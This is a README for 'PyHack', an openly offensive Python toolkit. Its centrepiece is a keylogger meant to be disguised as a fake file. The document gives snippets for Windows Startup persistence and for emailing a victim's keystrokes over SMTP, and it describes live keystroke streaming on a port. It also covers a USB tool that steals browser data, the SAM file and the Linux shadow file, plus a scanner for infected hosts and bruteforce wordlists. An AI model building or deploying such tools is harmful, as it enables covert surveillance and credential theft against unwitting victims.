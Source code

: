 # PyHack
KEYLOGGER :

Keylogger is, obviously a keylogger. feel free to rename it, make a windows executable, false pptx file or whatever you want. This keylogger will send you emails of whatever the victim is tiping and, if you are in the same private network, provide a "live keylogger feature wich allows you to see what the vitcim is typing in live. 

This keylogger broadcasts the live on the port 8835, feel free to change it on the line :

self.socket.bind(('',8835))

Just modify the

shutil.copyfile("{}/keylogger.exe".format(os.getcwd()),"C:\\Users\\{}\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\keylogger.exe".format(getpass.getuser()))


line by removing keyllogger.exe to the file name. this line will copy the script itself on the startup file of windows and make it start at each startup of the computer.
please also modify these line with your own email address.


msg['From'] = "exemple@gmail.com"
msg['To'] = COMMASPACE.join("exemple@gmail.com")

smtp.login("exemple@gmail.com","exemple_password")
smtp.sendmail("exemple@gmail.com","exemple@gmail.com",msg.as_string())

and if you are not using gmail, please modify the smtp server addres on the line :

smtp = smtplib.SMTP('smtp.gmail.com')


KEYLOGGER_RECEVER : 

Keylogger recever is a script you use in the same private network than your vitctim's computer to access the live keylogger. But to access the live, you will need the local ip address of the vitctim's computer. use the "virus_scanner" script to perform a local network scan and get the ip address. by default the keylogger uses the 8835 port, if you haven't changed it this is the port you will need to specify. 

VIRUS_SCANNER :

Virus scanner is a script wich perform a network scan and show what ip addresses are infected. by default the keylogger uses the 8835 port, if you haven't changed it this is the port you will need to specify. This script may takes about 70/120 s to scan the entire network.

DATA CATCHER:

Data catcher is a script made to be run from an USB key, it simply copy copy all the sensitive data like Browsers data and SAM file from the computer to the USB key. Will not work if the app is not on her default installation path. Only the shadow file will be stolen on a linux machine.

WORDLIST_MAKER:

Simple wordlist maker, to make more specific bruteforce attacks.

DHCP SCANNER:

(needs scapy, to install it, simply use python -m pip install scapy[complete])
Simple script which discover all the hosts up of yoour network and their hostnames, you can pass "all" in object creation argument or a range of IP.

DNS_SNIFFER:

(needs scapy, to install it, simply use python -m pip install scapy[complete])
Simple network sniffer which stores all the trafic in a pcap file created on the root, but the script display just the DNS requests in the console for a better view of the traffic.

